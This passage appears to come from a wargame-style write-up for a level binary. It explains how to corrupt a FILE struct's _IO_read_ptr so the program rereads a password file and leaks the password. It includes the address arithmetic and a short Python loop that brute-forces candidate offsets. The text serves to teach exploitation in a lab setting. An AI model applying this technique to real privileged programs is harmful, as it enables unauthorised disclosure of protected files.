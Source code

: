 As it turns out, if we overwrite ```_IO_read_ptr```, we can force the FILE struct to begin reading from the beginning of the file again. So, our exploit becomes simple: after the code reads in the password, we reset the read pointer (starting it from offset 0 again) and then it reads in the password again as the error message. We can calculate the base address we want to overwrite in memory with some simple math

```
Base address of our pointer in memory: 0xbffffc84
Address of fp->_IO_read_ptr in memory: 0x804a008 + 4 (offset for _IO_read_ptr) = 0x0804a00c
0xbffffc84 - 0x0804a00c = 0xb7fb5c78
```

After making this value negative and converting to decimal, we get -3086703700. However, this is way larger than a 32 bit int. After overflowing it, we end up with 1208263594, which is the ```_IO_read_ptr```' address. The final complication is simply hitting the correct value in memory, because of small shifts in addresses. To counter this, lets just try a range of values centered around what we think the address should be.

```
import os
around = 1208263594
num = 10000

for x in xrange(around - num, around + num):
    os.system("/levels/level10 %s" % str(x))
```